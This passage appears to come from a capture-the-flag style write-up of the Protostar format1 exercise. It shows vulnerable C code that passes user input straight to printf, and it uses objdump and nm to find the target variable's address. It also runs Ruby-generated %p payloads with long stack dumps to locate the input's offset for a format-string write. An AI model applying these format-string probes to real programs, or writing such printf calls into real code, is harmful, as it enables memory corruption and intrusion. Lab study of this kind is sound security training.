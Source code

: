int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
{% endcodeblock %}

We want to write something to global variable `target`, stored in `bss` section. It has fixed address:
{% codeblock %}
user@protostar:~$ objdump -t /opt/protostar/bin/format1 | grep target
08049638 g     O .bss	00000004              target

user@protostar:~$ nm /opt/protostar/bin/format1 | grep target
08049638 B target
{% endcodeblock %}


To find the `DDDD = 0x44444444` on the stack, after a few tries we have:
{% codeblock %}
user@protostar:~$ /opt/protostar/bin/format1 "$(ruby -e 'print "DDDD" + " %p" * 200')"
DDDD 0x804960c 0xbffff528 0x8048469 0xb7fd8304 0xb7fd7ff4 0xbffff528 0x8048435 0xbffff718 0xb7ff1040 0x804845b 0xb7fd7ff4 0x8048450 (nil) 0xbffff5a8 0xb7eadc76 0x2 0xbffff5d4 0xbffff5e0 0xb7fe1848 0xbffff590 0xffffffff 0xb7ffeff4 0x804824d 0x1 0xbffff590 0xb7ff0626 0xb7fffab0 0xb7fe1b28 0xb7fd7ff4 (nil) (nil) 0xbffff5a8 0xcec48558 0xe4969348 (nil) (nil) (nil) 0x2 0x8048340 (nil) 0xb7ff6210 0xb7eadb9b 0xb7ffeff4 0x2 0x8048340 (nil) 0x8048361 0x804841c 0x2 0xbffff5d4 0x8048450 0x8048440 0xb7ff1040 0xbffff5cc 0xb7fff8f8 0x2 0xbffff6fd 0xbffff718 (nil) 0xbffff975 0xbffff983 0xbffff997 0xbffff9b8 0xbffff9cb 0xbffff9de 0xbffff9e8 0xbffffed8 0xbfffff16 0xbfffff2a 0xbfffff39 0xbfffff4a 0xbfffff52 0xbfffff62 0xbfffff6f 0xbfffffa3 0xbfffffb2 0xbfffffcf (nil) 0x20 0xb7fe2414 0x21 0xb7fe2000 0x10 0xfabfbff 0x6 0x1000 0x11 0x64 0x3 0x8048034 0x4 0x20 0x5 0x7 0x7 0xb7fe3000 0x8 (nil) 0x9 0x8048340 0xb 0x3e9 0xc (nil) 0xd 0x3e9 0xe 0x3e9 0x17 0x1 0x19 0xbffff6db 0x1f 0xbfffffe1 0xf 0xbffff6eb (nil) (nil) (nil) (nil) (nil) 0xd4000000 0x72facad1 0x50139897 0x39f1f921 0x695501e9 0x363836 (nil) (nil) (nil) 0x706f2f00 0x72702f74 0x736f746f 0x2f726174 0x2f6e6962 0x6d726f66 0x317461 0x44444444 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025

user@protostar:~$ /opt/protostar/bin/format1 "$(ruby -e 'print "DDDD" + " %p" * 140')" 
DDDD 0x804960c 0xbffff5e8 0x8048469 0xb7fd8304 0xb7fd7ff4 0xbffff5e8 0x8048435 0xbffff7cc 0xb7ff1040 0x804845b 0xb7fd7ff4 0x8048450 (nil) 0xbffff668 0xb7eadc76 0x2 0xbffff694 0xbffff6a0 0xb7fe1848 0xbffff650 0xffffffff 0xb7ffeff4 0x804824d 0x1 0xbffff650 0xb7ff0626 0xb7fffab0 0xb7fe1b28 0xb7fd7ff4 (nil) (nil) 0xbffff668 0x9cacbe0e 0xb6ff281e (nil) (nil) (nil) 0x2 0x8048340 (nil) 0xb7ff6210 0xb7eadb9b 0xb7ffeff4 0x2 0x8048340 (nil) 0x8048361 0x804841c 0x2 0xbffff694 0x8048450 0x8048440 0xb7ff1040 0xbffff68c 0xb7fff8f8 0x2 0xbffff7b1 0xbffff7cc (nil) 0xbffff975 0xbffff983 0xbffff997 0xbffff9b8 0xbffff9cb 0xbffff9de 0xbffff9e8 0xbffffed8 0xbfffff16 0xbfffff2a 0xbfffff39 0xbfffff4a 0xbfffff52 0xbfffff62 0xbfffff6f 0xbfffffa3 0xbfffffb2 0xbfffffcf (nil) 0x20 0xb7fe2414 0x21 0xb7fe2000 0x10 0xfabfbff 0x6 0x1000 0x11 0x64 0x3 0x8048034 0x4 0x20 0x5 0x7 0x7 0xb7fe3000 0x8 (nil) 0x9 0x8048340 0xb 0x3e9 0xc (nil) 0xd 0x3e9 0xe 0x3e9 0x17 0x1 0x19 0xbffff79b 0x1f 0xbfffffe1 0xf 0xbffff7ab (nil) (nil) (nil) (nil) (nil) 0xd3000000 0xaf79b817 0x53b8b1a3 0x6ce5252 0x69b1ee44 0x363836 0x706f2f00 0x72702f74 0x736f746f 0x2f726174 0x2f6e6962 0x6d726f66 0x317461 0x44444444 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025
